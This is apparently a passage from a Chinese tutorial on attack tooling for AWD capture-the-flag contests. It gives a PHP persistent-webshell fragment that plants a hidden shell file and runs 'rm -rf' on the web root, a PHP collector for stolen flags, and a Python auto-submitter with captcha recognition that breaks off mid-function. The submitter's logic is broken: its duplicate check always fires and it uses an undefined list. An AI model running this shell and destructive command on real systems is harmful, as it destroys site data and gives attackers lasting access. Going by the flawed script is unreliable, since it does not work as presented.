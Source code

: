 ```
        file_put_contents(".c403d59fea33113df44d465aeec336ab.php", $shell, FILE_APPEND);
    }
    system("rm -rf /var/www/html/* !(.c403d59fea33113df44d465aeec336ab.php)");
}
?>
```

（2）服务端接收 flag

1. 按照往年比赛经验，靶机和我们的电脑是互通的，这个脚本可以本机开一个 phpstudy 跑起来，若不通的话直接放自己的靶机服务器上。

2. 这个脚本默认名字为 getflag.php，如果修改的话需要修改内存脚本中对应的文件名。

3. 新的 flag 会源源不断提交过来，在当前目录的 shuoshuren_flag.txt 里面。

```
<?php
$flag=$_POST["flag"];
file_put_contents("shuoshuren_flag.txt", $flag."\n", FILE_APPEND);
?>
```

（3）自动提交 flag 脚本

根据往年经验，flag 提交平台是有验证码的，所以这个脚本调用了验证码训练识别模型，达到自动化提交 flag 的目的，平台没有验证码的话就不用识别。

```
# AWD自动提交flag脚本
# base python3
# author：说书人
import requests
import base64
import json
import time


def GetPic(url):  # 获取验证码并识别，这里会调用我本机的验证码训练识别模型（refer：算命瞎子）
    pic_content=requests.get(url).content
    pic_base64=base64.b64encode(pic_content).decode()
    data='base64='+pic_base64
    try:
        yzm=requests.post('http://192.168.3.103:8899/base64',data=data).text
        return yzm
    except:
        return 'yzm'


def PostFlag(PostUrl,PicUrl,flag):  # 提交flag
    with open(flag,'r') as f:
        flag_list=f.read().split('\n')
    headers={
        #请求头需要现场抓包
    }
    for flag in flag_list:
        if flag in flag_list:
            print("{}   重复".format(flag))
        else:
            GetYzm=GetPic(PicUrl)
            data = json.dumps({"请求体需要现场抓包，字典格式"})
            try:
                res=requests.post(url=PostUrl,headers=headers,data=data)
                if '成功的标识符' in res.text:
                    print("{}   提交成功".format(flag))
                    flag_list_ok.append(flag)
                else:
                    print("{}   提交失败".format(flag))
            except:
```